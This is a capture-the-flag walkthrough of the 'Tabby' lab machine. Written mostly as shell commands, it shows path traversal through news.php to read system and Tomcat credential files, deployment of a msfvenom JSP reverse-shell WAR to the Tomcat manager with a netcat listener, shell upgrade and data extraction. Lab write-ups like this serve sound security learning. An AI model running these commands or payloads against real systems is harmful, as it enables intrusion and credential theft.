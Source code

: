 # tabby

```sh
## kali

sudo su -
cd projects
mkdir tabby
cd tabby
mkdir share
mkdir foothold
mkdir exfil
mkdir privesc

nv /etc/local # add: 10.10.10.194 tabby

sup tabby # nmap scans.

so tabby # scan summary and setting vars.

# 22 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
ssh tabby # denied, publickey

# 80 Apache httpd 2.4.41 ((Ubuntu))
  # browser ->
    # nothing on the quick

# 8080 Apache Tomcat
  # browser -> open all links
    # /docs -> Apache Tomcat 9 (Version 9.0.31, Feb 24 2020)
    # /examples -> are installed
    # /manager & /host-manager -> ask for password (401 gives info)
    # users are defined in /etc/tomcat9/tomcat-users.xml

dirb http://tabby/ -o dirb80.log
dirb http://tabby:8080/ -o dirb8080.log

tail -F *.log | grep --line-buffered ^==
```

```sh
## vmhost

# local port forwarding so we can browse the sites from outside kali:
ssh -N kali -L 0.0.0.0:80:tabby:80
ssh -N kali -L 0.0.0.0:8080:tabby:8080

# port 80
# wappalyzer: apache 2.4.41, ubuntu

# port 8080
# wappalyzer: apache 2.4.41, ubuntu

# no new info :/
```

```sh
## kali

# port 22
searchsploit openssh 8 # nothing useful.
# https://www.cybersecurity-help.cz/vdb/SB2020052708

# port 80
searchsploit apache 2 # no public exploit for 2.4.41.

# port 8080
searchsploit tomcat
# https://tomcat.apache.org/security-9.html
# nothing useful.
```

---

I mean the box is called `tabby` so it's probably a Tomcat exploit.

```sh
grep ^== dirb* # nothing interesting.
```
* port 8080 via browser, still nothing
* port 80 via browser:
* some links point to megahosting.htb
* try them with the server.
  * `news.php` with `file` parameter!
* let's try passing some files:
  * first the one from the page:
    * `/news.php?file=statement`
      * nice apology
    * `/news.php?file=index.html`
      * empty page
* let's switch to curl

```sh
## kali
curl -s tabby > index80.html
grep .htb index80.html # a mail address and the aforementioned news.php

curl tabby/news.php?file=statement # yep, it's still the statement.
curl tabby/news.php?file=index.html # empty.
curl tabby/news.php?file=index.php # empty.
curl tabby/news.php?file=../index.html # empty.
curl tabby/news.php?file=../index.php # jackpot! it's the root index file.
curl tabby/news.php?file=../../index.php # empty.

# let's try breaking out and fetching a file that was mentioned on tabby:8080
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/ROOT/index.html # it works!

# when we entered a wrong password, tabby:8080/manager/html mentioned conf/tomcat-users.xml
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/conf/tomcate-users.xml # empty :(

# whoops, one an errant e
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/conf/tomcat-users.xml # nope.
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/conf/tomcat-users.xml # nope.
curl tabby/news.php?file=../../../../../../../var/lib/tomcat9/webapps/ROOT/conf/tomcat-users.xml # nope.

# let's google the location for tomcat-users.xml

# $CATALINA_BASE/conf/tomcat-users.xml
# $CATALINA_BASE is /var/lib/tomcat9
# should work, but does not.

# remove ../ until we find the last that works. 4 are enough to get to the root dir.
# try something else:
cd exfil
curl tabby/news.php?file=../../../../usr/share/doc/tomcat9-common/RUNNING.txt.gz --output RUNNING.txt.gz
gunzip *.gz

# read it.
# try another path:
curl tabby/news.php?file=../../../../etc/hosts # works.

# let's look for the ubuntu tomcat package:
# https://packages.ubuntu.com/search?keywords=tomcat9
# I don't know the exact Ubuntu version, I'm assuming they are all similar:
# https://packages.ubuntu.com/focal/all/tomcat9/filelist
curl tabby/news.php?file=../../../../../etc/cron.daily/tomcat9 # works. good start.
curl tabby/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml # YES!

# let's download it:
curl tabby/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml -o tomcat-users.xml
grep password *.xml

# let's try those credentials:
# tabby:8080/manager/html # nope
  # can we find those creds too?
# tabby:8080/manager/host-manager # yes!
  # now we have access to the Tomcat Virtual Host Manager
```

Wait a minute!

```sh
## kali
# totally forgot, there's ssh running!
curl tabby/news.php?file=../../../../../etc/ssh/sshd_config > sshd_config
curl tabby/news.php?file=../../../../../etc/ssh/ssh_config > ssh_config
# private keys can't be fetched, oh well.
```

Maybe the webserver on port 80

```sh
curl tabby/news.php?file=../../../../var/www/html/index.php
# maybe we can get news.php
curl tabby/news.php?file=../../../../var/www/html/news.php > news.php # yes!
curl tabby/news.php?file=../../../../var/www/html/index.php > index.php # might as well.
curl tabby/news.php?file=../../../../lib/systemd/system/tomcat9.service > tomcat9.service # should give us the paths.

curl http://tabby/news.php?file=../../../../etc/passwd > passwd # at least we will get the usernames.
egrep -v "bin/nologin|bin/false" passwd
# we found a new user: ash
# can't manage to extract any info though.
```
---

Alright, after a couple of hours I've looked up a hint:
The idea is to upload a shell via the Tomcat manager.
(I did not know you could upload things, so I would have
not figured that out anytime soon.)

* http://tabby:8080/host-manager/html
  * click server status
  * click complete server status
    * (http://tabby:8080/manager/status/all)
    * take a look at the applications
      * let's add our own
      * as soon as we call it our payload will be executed
      * let's create a TCP reverse shell

* Tomcat uses Java JSPs. (JavaServerPages).
* WAR files: Web Applications aRchives (contains a JAR)
* JAR files: Java ARchives

The URL for uploading WAR files is http://tabby:8080/manager/text/deploy

```sh
msfvenom --list payloads > msf_payloads # long list.
grep java msf_payloads # java/jsp_shell_reverse_tcp looks good.
msfvenom -l formats # war is what we need (wait what).

# let's open a listener:
rlwrap nc -vnlp 42424 # this will be our shell.

# create the payload:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.69 LPORT=42424 -f war -o shell.war

# war files are packed folders in disguise:
mkdir shell && cd shell
jar -xvf ../shell.war
# take a look at it. the jsp file is interesting
# (around line 50)
cd ..

# you can upload files with curl. same credentials we found before.
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://tabby:8080/manager/text/deploy?path=/shell'
# -u user credentials
# -T upload file

# our new webapp should be visible in the manager now!

# visit the new app in the browser:
# http://tabby:8080/shell
# or curl it, don't forget the following /:
curl -u 'tomcat':'$3cureP4s5w0rd123!' 'http://tabby:8080/shell/'

```

```sh
# in the shell:
# this shell does not provide any feedback. let's upgrade it:
python3 -c 'import pty;pty.spawn("/bin/bash")'
# ctr-z send to background
stty raw -echo # setup terminal
fg # back to shell.

id # tomcat, tomcat, tomcat
umask -S # permissions for new files.
uname -a # Linux tabby 5.4.0-31-generic #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020 x86_64 [...]
env
pwd # /var/lib/tomcat9/webapps
ls -alp # finally we can properly browse around!
ls -pal webapps
alias ll='ls -lap' # always useful.
find . # decent alternative for: tree

# we have gained a new ability:
# let's exfiltrate some data that we have generated ourselves:
cd webapps/shell
find / > filesystem 2>&1
curl tabby:8080/shell/filesystem > filesystem
```

